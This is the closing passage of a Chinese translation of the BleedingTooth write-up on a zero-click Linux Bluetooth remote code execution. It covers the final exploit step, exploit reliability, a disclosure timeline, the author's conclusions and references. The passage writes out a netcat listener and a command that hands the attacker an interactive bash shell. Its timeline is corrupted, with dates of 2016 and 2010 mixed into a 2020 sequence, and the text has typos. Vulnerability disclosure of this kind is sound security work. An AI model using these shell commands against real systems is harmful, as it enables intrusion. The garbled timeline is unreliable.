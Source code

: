 在另一个终端中，运行:

```shell
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

如果成功执行，会弹出一个 calc ：

```shell
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

受害者偶尔可能会在 dmesg 中打印：Bluetooth: Trailing bytes: 6 in sframe。如果 `kmalloc-128 slab` 喷射没有成功，就会发生这种情况。在这种情况下，我们需要崇训利用 EXP 。关于“BadKarma”这个漏洞的一个趣闻，BadKarma 漏洞偶尔会在 `sk_filter()` 的提前退出，例如当字段 `sk_filter` 为 0 时，继续执行 A2MP 接收处理程序并发送回一个 A2MP 响应包。有意思的是，当这种情况发生时，受害者的机器并没有发生 painc ——相反，攻击者的机器会 panic；因为，正如我们之前了解到的，A2MP 协议使用的 ERTM 实现在设计上会引发类型混淆。

# 时间线

- 2020-07-06 - 谷歌内部发现 BadVibes 漏洞
- 2016-07-20 - 谷歌内部发现 BadKarma 和 BadChoice 漏洞
- 2010-07-22 - Linus Torvalds 报告独立发现 BlueZ 的 BadVibes 漏洞，公布时间为7天
- 2020-07-24 - [BlueZ 主要开发人员][20]（Intel）报告的三个 BleedingTooth 漏洞的技术细节
- 2020-07-29 - Intel 在 2020-07-31 与谷歌预约了会议
- 2020-07-30 - BadVibes 发布修复补丁
- 2020-07-31 - Intel 将披露日期定在 2020-09-01，此前由 Intel 协调发布了一份保密协议。通知方通过 kconfig 给出一个非安全性提交消息来禁用 BT_HS 
- 2020-08-12 - Intel 调整披露日期至 2020-10-13 (自初始报告起90天)
- 2020-09-25 - Intel 提交补丁到 公开的 [bluetooth-next]21] 分支 
- 2020-09-29 - 补丁与 [5.10 linux-next][22] 分支合并
- 2020-10-13 - 公开披露英特尔的建议，随后披露谷歌建议
- 2020-10-14 - Intel 将推荐的固定版本从 5.9 修正到 5.10 内核
- 2020-10-15 - Intel 取消内核升级建议

# 结论

从零知识开始，到发现蓝牙 HCI 协议中的三个漏洞，这是一个即奇怪又出乎意料的过程。当我第一次发现 BadVibes 漏洞时，我认为它只会被脆弱/恶意的蓝牙芯片触发，因为这个漏洞看起来太明显了。由于我没有两个带蓝牙 5 的可编程设备，我无法验证是否有可能收到这么大的报文。只有在比较了 Linux 蓝牙栈与其他实现并阅读了规范之后，我才得出结论，我确实是发现了我的第一个 RCE 漏洞，并立即出去购买了另一台笔记本电脑(令人惊讶的是，市场上没有值得信赖的 BT5 适配器)。分析溢出后，很快就发现需要一个额外的信息泄漏漏洞。比我想象的要快得多，我只花了两天时间就发现了 BadChoice 。在尝试触发它时，我发现了 BadKarma 漏洞，我最初认为这是一个会阻止 BadChoice 漏洞的 bug。事实证明，绕过这个漏洞是相当容易的，而且这个漏洞实际上是另一个高度严重的安全漏洞。研究 Linux 蓝牙栈和开发 RCE 漏洞具有挑战性，但令人兴奋，特别是因为这是我第一次审计和调试 Linux 内核。我很高兴，这项工作的结果是，决定在[默认情况下禁用蓝牙高速特性][23]下以减少攻击面，这也意味着删除强大的堆原语。此外，我将从这项研究中获得的知识转化为 [syzkaller contributions][24]，它使 /dev/vhci 设备能被 Fuzz，并发现了 >40 个额外的 bug。虽然这些 bug 多数不太可能被利用，甚至不太可能被远程触发，但它们会被工程师识别和修复其他弱点（[Bluetooth: Fix null pointer dereference in hci_event_packet()][25]、[Bluetooth: Fix memory leak in read_adv_mon_features()][26] 或 [Bluetooth: Fix slab-out-of-bounds read in hci_extended_inquiry_result_evt()][27]，因此有助于拥有一个更安全、更稳定的内核。

# 致谢

- Dirk Göhmann
- Eduardo Vela
- Francis Perron
- Jann Horn


[#]: subject: "BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution"
[#]: via: "https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html"
[#]: author: "Andy Nguyen (theflow@)"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://github.com/google/syzkaller
[2]: https://www.armis.com/research/bleedingbit
[3]: https://knobattack.com
[4]: https://www.armis.com/blueborne
[5]: https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag
[6]: https://youtu.be/qPYrLRausSw
[7]: http://www.bluez.org
[8]: https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00435.html
[9]: https://github.com/google/security-research/security/advisories/GHSA-ccx2-w2r4-x649
[10]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=a2ec905d1e160a33b2e210e45ad30445ef26ce0e
[11]: htts://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq
[12]: https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq
[13]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=eddb7732119d53400f48a02536a84c509692faa8
[14]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=f19425641cb2572a33cb074d5e30283720bd4d22
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[16]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b560a208cda0297fef6ff85bbfd58a8f0a52a543
[17]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/extract-vmlinux
[18]: https://github.com/JonathanSalwan/ROPgadget
[19]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[20]: http://www.bluez.org/development/credits
[21]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=f19425641cb2572a33cb074d5e30283720bd4d22
[22]: https://git.kernel.org/pub/scm/linux/kernel/git/next/linux-next.git/commit/net/bluetooth?id=2bd056f550808eaa2c34a14169c99f81ead083a7
[23]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[24]: https://github.com/google/syzkaller/commits?author=TheOfficialFloW
[25]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b50dc237ac04d499ad4f3a92632470a9eb844f7d
[26]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=cafd472a10ff3bccd8afd25a69f20a491cd8d7b8
[27]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=51c19bf3d5cfaa66571e4b88ba2a6f6295311101